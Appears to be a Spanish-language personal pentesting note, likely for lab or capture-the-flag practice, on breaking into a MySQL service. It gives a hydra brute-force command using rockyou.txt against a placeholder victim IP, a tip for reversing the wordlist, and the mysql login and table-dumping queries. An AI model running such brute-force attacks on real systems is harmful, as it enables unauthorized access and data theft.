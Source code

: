
Si al hacer toda la fase de reconocimiento vemos que hay levantada una base de datos, lo primero que tenemos que hacer es encontrar el usuario. Lo podemos buscar si tiene levantado el puerto 80 y alberga un a web, podemos mirar el código fuente si es que no vemos nada usando `ctrl + u`
Cuanto encontremos un usuario tenemos que realizar un ataque de fuerza bruta [[HYDRA]], en este caso al ser a una base de datos atacamos al puerto de esta.
`hydra -l <user> -P /usr/share/wordlists/rockyou.txt mysql://<IP-Victima>`

## INVERTIR WORDLIST ##
Si vemos que el ataque empieza a tardar mucho le podemos dar la vuelta a la wordlist
`tac /usr/share/wordlists/rockyou.txt > rockyou_inver.txt`
Hay que hacer correcciones en el fichero

Una vez hemos encontrado la contraseña accedemos al servicio mySQL
`mysql -h <IP-victima> -u <usuario> -p<contraseña>`  No poner espacio en -p

Para encontrar usuarios en SQL
`show databases;`
`use <nombre_bbdd_elegida>;`
`show tables;`
`SELECT * FROM <Nombre_tabla>`

